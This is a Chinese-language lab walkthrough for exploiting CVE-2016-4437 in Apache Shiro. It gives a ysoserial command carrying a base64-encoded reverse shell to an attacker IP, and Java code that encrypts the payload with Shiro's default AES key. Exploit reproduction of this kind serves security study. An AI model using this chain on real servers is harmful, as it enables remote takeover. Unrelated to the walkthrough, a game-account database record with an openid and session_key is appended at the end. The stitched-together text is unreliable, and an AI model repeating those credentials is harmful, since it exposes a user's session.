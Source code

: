 # CVE-2016-4437

## 漏洞说明

Apache Shiro是一款开源安全框架，提供身份验证、授权、密码学和会话管理。Shiro框架直观、易用，同时也能提供健壮的安全性。

Apache Shiro 1.2.4及以前版本中，加密的用户信息序列化后存储在名为remember-me的Cookie中。攻击者可以使用Shiro的默认密钥伪造用户Cookie，触发Java反序列化漏洞，进而在目标机器上执行任意命令。

## 影响版本

Apache Shiro <= 1.2.4

## 前置知识

shiro的加密方式：

​	1、shiro框架在输入任意用户名密码登录后，响应包返回Set-Cookie: rememberMe=deleteMe，可以根据此特征探测shiro框架，rememberMe也可能被修改成其他字段，可依靠deleteMe特征判断。

​	2、服务端接收到Cookie后，①检索RememberMe Cookie的值 -> ②Base64解码 -> ③AES解密(加密密钥硬编码，一般防护方法为修改这里的默认密钥) -> ④反序列化(未进行过滤，可导致RCE)

## 靶场搭建

```shell
 cd /root/vulhub-master/shiro/CVE-2016-4437
 docker-compose up -d
```

![image-20230922225354120](../img/Apache-Shiro_CVE-2016-4437/image-20230922225354120.png)

访问http://ip:8080

![image-20230922225559685](../img/Apache-Shiro_CVE-2016-4437/image-20230922225559685.png)

## 漏洞复现

输入任意用户名密码登录抓包，返回包存在shiro特征

![image-20230922225324261](../img/Apache-Shiro_CVE-2016-4437/image-20230922225324261.png)

攻击机开启监听

![image-20230922230023860](../img/Apache-Shiro_CVE-2016-4437/image-20230922230023860.png)

生成反弹shell命令

![image-20230922230205721](../img/Apache-Shiro_CVE-2016-4437/image-20230922230205721.png)

序列化编码后的命令

[ysoserial](https://github.com/frohoff/ysoserial/releases/download/v0.0.6/ysoserial-all.jar)

```shell
java -jar ysoserial-all.jar CommonsBeanutils1 "bash -c {echo,c2ggLWkgPiYgL2Rldi90Y3AvMTkyLjE2OC40MC4xLzEyMzQgMD4mMQ==}|{base64,-d}|{bash,-i}" > poc.ser
```

![image-20230923144917902](../img/Apache-Shiro_CVE-2016-4437/image-20230923144917902.png)

利用Shiro默认密钥对poc.ser进行AES加密

```java
import org.apache.shiro.crypto.AesCipherService;
import org.apache.shiro.codec.CodecSupport;
import org.apache.shiro.util.ByteSource;
import org.apache.shiro.codec.Base64;
import org.apache.shiro.io.DefaultSerializer;

import java.nio.file.FileSystems;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.nio.charset.Charset;

public class TestRemember {
    public static void main(String[] args) throws Exception {
        byte[] payloads = Files.readAllBytes(FileSystems.getDefault().getPath("/path", "to", "poc.ser"));

        AesCipherService aes = new AesCipherService();
        byte[] key = Base64.decode(CodecSupport.toBytes("kPH+bIxk5D2deZiIxcaaaA=="));

        ByteSource ciphertext = aes.encrypt(payloads, key);
        Files.write(FileSystems.getDefault().getPath("/tmp/poc.txt"),ciphertext.toString().getBytes(Charset.forName("UTF-8")));
        System.out.printf(ciphertext.toString());
    }
}
```

![image-20230923135014181](../img/Apache-Shiro_CVE-2016-4437/image-20230923135014181.png)

[slf4j-api-2.0.9](https://repo1.maven.org/maven2/org/slf4j/slf4j-api/2.0.9/slf4j-api-2.0.9.jar)

[shiro-core-1.12.0](https://repo1.maven.org/maven2/org/apache/shiro/shiro-core/1.12.0/shiro-core-1.12.0.jar)

Javac编译shiro.java

```shell
javac -classpath shiro-core-1.12.0.jar Shiro.java
```

![image-20230923145325781](../img/Apache-Shiro_CVE-2016-4437/image-20230923145325781.png)

```shell
java -classpath .:shiro-core-1.12.0.jar:slf4j-api-2.0.9.jar:logback-classic-2.0.9 Shiro
```

![image-20230923145421493](../img/Apache-Shiro_CVE-2016-4437/image-20230923145421493.png)



{
  "_id": {
    "$numberLong": "562297101095076096"
  },
  "openid": "oN4x15DWWWCzY6ORrgq30RHiNV68",
  "session_key": "LA/ksxr76QOzVmrahI4emw==",
  "userName": "562297101095076096",
  "loginTime": {
    "$numberLong": "1682066113795"
  },
  "createTime": {
    "$numberLong": "1680939355876"
  },
  "userInfo": {
    "avatarUrl": "https://thirdwx.qlogo.cn/mmopen/vi_32/Q0j4TwGTfTK2sXbGK8nLDicNCzVAx7ytGZibYn3LClrnTKzv5Fmuj5wUvukmusKjSOaibdlG5iaWIuXRAmf9qT8rgQ/132",
    "nickName": "黑白"
  },
  "areaId": 14,
  "grade": 1,
  "grade_score": 0,
  "season": 3,
  "gradeAwardIds": [],
  "skin": 2000003,
  "finishGuide": true,
  "recHookTime": 1682065918,
  "_class": "game.db.WzCharacter"
}